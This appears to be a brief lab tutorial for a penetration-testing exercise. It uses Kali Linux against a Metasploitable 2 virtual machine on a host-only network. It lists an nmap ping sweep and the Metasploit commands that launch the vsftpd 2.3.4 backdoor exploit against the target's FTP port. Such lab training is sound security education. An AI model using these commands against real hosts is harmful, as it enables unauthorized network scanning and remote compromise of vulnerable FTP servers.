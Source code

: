  #  Requirements
- Kali Linux (Attacker machine)

- Metasploitable 2 (Victim machine)

- Both must be on the same network or host-only adapter in VirtualBox/VMware.
   ## Step 1:
- Open a terminal in Kali:
-nmap -sn 192.168.56.0/24
-Replace 192.168.56.0/24 with your actual network range.
-Look for Metasploitable IP (e.g., 192.168.56.101).
-msfconsole
-search vsftpd
-use exploit/unix/ftp/vsftpd_234_backdoor
-set RHOSTS 192.168.56.101
-set RPORT 21
-exploit
